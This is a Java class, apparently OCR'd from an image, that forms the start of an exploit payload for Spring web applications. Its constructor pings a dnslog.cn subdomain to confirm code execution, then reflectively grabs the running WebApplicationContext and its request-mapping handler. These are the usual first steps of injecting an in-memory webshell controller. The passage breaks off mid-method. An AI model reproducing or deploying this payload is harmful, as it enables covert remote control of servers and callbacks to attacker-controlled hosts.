 ```java
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import javax.sound.midi.Soundbank;
import java.io.IOException;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.HashMap;
import java.util.Map;

/**
 * @author   Email:
 * @description:
 * @Version
 * @create 2023-10-28 13:37
 */
public class Eval extends java.lang.ClassLoader  {




    public Eval() {

        Runtime runtime = Runtime.getRuntime();
        Process pc = null;
        try {
            pc = runtime.exec("ping",new String[]{"-c 4","c3e3sc.dnslog.cn"});
            pc.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }


        System.out.println("开始.....");
        java.lang.reflect.Field filed = null;
        try {
            filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        filed.setAccessible(true);
        WebApplicationContext context = null;
        try {
            context = (WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        System.out.println("获取 WebApplicationContext 成功" );
       // 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean

        RequestMappingHandlerMapping handlerMapping = null;

        try {

//            handlerMapping = context.getBean(RequestMappingHandlerMapping.class);

            // 获取所有的 bean 对象
            Map<String, Object> beans = context.getBeansOfType(Object.class);
```